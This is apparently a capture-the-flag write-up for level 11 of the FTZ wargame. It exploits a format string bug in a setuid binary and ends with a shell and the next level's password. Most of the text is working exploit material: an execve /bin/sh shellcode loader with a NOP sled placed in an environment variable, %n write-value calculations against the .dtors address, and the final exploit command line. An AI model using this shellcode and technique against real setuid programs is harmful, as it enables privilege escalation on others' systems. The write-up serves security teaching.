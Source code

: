# Level11

## This level's goal

- FSB(Format String Bug)
- Shell code

***

```
[level11@ftz level11]$ ls -l
total 28
-rwsr-x---    1 level12  level11     13733 Mar  8  2003 attackme
-rw-r-----    1 root     level11       168 Mar  8  2003 hint
drwxr-xr-x    2 root     level11      4096 Feb 24  2002 public_html
drwxrwxr-x    2 root     level11      4096 Jan 14  2009 tmp

[level11@ftz level11]$ cat hint

#include <stdio.h>
#include <stdlib.h>

int main( int argc, char *argv[] )
{
        char str[256];

        setreuid( 3092, 3092 );
        strcpy( str, argv[1] );
        printf( str );
}
```

The hint seems the vulnerability of FSB and BOF   
I will exploit with FSB

```
[level11@ftz level11]$ ./attackme
Segmentation fault
```

This seems that Segmentation falut will be printed if there is no argument and then the argv[1] is the value of garbage.

```
[level11@ftz level11]$ ./attackme "AAAA"
AAAA
[level11@ftz level11]$ ./attackme "AAAA %x"
AAAA bffffc40
[level11@ftz level11]$ ./attackme "AAAA %x %x"
AAAA bffffc3d bffff300
[level11@ftz level11]$ ./attackme "AAAA %x %x %x"
AAAA bffffc3a bfffdb80 1
[level11@ftz level11]$ ./attackme "AAAA %x %x %x %x"
AAAA bffffc37 bfffde00 1 41414141
```

AAAA means 41414141

I will make the shell code(egg.c) and getenv.c(To get SUPERDK's address)

```
[level11@ftz tmp]$ cat egg.c

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

#define DEFAULT_OFFSET 0
#define DEFAULT_ADDR_SIZE 8
#define DEFAULT_BUFFER_SIZE 512
#define DEFAULT_SUPERDK_SIZE 2048
#define NOP 0x90

char shellcode[] =
 "\x31\xc0\x31\xd2\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
 "\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80";

unsigned long get_sp(void)
{
        __asm__("movl %esp, %eax");
}

int main(int argc, char **argv)
{
        char *ptr, *superSH;
        char shAddr[DEFAULT_ADDR_SIZE + 1];
        char cmdBuf[DEFAULT_BUFFER_SIZE];
        long *addr_ptr,addr;
        int offset=DEFAULT_OFFSET;
        int i, supershLen=DEFAULT_SUPERDK_SIZE;
        int chgDec[3];

        if(!(superSH = malloc(supershLen)))
        {
                printf("Can't allocate memory for supershLen");
                exit(0);
        }

        addr = get_sp() - offset;
        printf("Using address: 0x%x\n", addr);

        ptr = superSH;
        for(i=0; i<supershLen - strlen(shellcode) - 1; i++)
                *(ptr++) = NOP;

        for(i=0; i<strlen(shellcode); i++)
                *(ptr++) = shellcode[i];

        superSH[supershLen - 1] = '\0';

        memcpy(superSH, "SUPERDK=", DEFAULT_ADDR_SIZE);
        putenv(superSH);

        system("/bin/bash");
}

[level11@ftz tmp]$ cat getenv.c

#include <stdio.h>

int main()
{
        printf("SUPERDK's addr=%p\n", getenv("SUPERDK"));
}
```

```
[level11@ftz level11]$ nm attackme
08049610 d __DTOR_END__

[level11@ftz tmp]$ ./egg
Using address: 0xbfffe988

[level11@ftz tmp]$ ./getenv
SUPERDK's addr=0xbffff49d
```

The attack code format   
`/home/level11/attackme $(printf "AAAAAddress1BBBBAddress2")%8x%8x%8x%Value1c%n%Value2c%n`

Address1 : \x10\x96\x04\x08(08049610)   
Address2(Address+1) : \x12\x96\x04\x08(08049612)   

0xbffff49d will be (Value2/Value1) cuz this will be inverted when you input   
Value1 : f49d - 40 = 62621(f49d) - 40 = 62581   
Value2 : 1bfff-f49d = 114687(1bfff) - 62621(f49d) = 52066

So, the attack code is   
`/home/level11/attackme $(printf "AAAA\x10\x96\x04\x08BBBB\x12\x96\x04\x08")%8x%8x%8x%62581c%n%52066c%n`

```
[level11@ftz level11]$ ./attackme $(printf "AAAA\x10\x96\x04\x08BBBB\x12\x96\x04\x08")%8x%8x%8x%62581c%n%52066c%n

sh-2.05b$ my-pass

Level12 Password is "it is like this".
```
